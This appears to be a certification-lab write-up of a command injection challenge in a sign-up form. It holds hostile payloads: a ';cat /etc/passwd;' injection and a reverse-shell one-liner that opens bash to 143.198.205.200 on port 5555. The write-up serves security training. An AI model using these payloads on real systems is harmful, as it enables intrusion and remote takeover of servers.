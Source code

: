 ```yaml
---
title: Challenge 14:The Unseen Obvious
date: 2024-05-15 05:06:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     ## TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


## Challenge/Task

1. Command Injection

**Proof-of-Concept (POC):**

Command injection is a security vulnerability that allows attackers to execute arbitrary commands on a system through vulnerable application inputs. On the sign-up page, there are 4 input field. One of the field vulnerable to the command injection. I send a command at the username field , “;cat /etc/passwd;” to fetch list of users and the server respond to it. 

![POC-otb](/img/cwae/tuo1.png){: w="400" h="400" }{: .normal }
![POC-otb](/img/cwae/tuo2.png){: w="400" h="400" }{: .normal }

We can try to get a reverse shell here by using this command
```jsx
;echo "bash -i >& /dev/tcp/143.198.205.200/5555 0>&1" >> f.sh;chmod +x f.sh;bash f.sh
```

This command attempts to append a line to a file named f.sh, which, when executed, will open a reverse shell to the IP address 143.198.205.200 on port 5555. Then, it makes the file executable and runs it using Bash.

Listening to port 5555.

![POC-otb](/img/cwae/tuo3.png){: w="400" h="400" }{: .normal }

We got a reverse shell after clicking the “Sign-Up” button. 

![POC-otb](/img/cwae/tuo4.png){: w="400" h="400" }{: .normal }

To proof it, I run id and whoami command to show the server belongs to the victim. 
![POC-otb](/img/cwae/tuo5.png){: w="400" h="400" }{: .normal }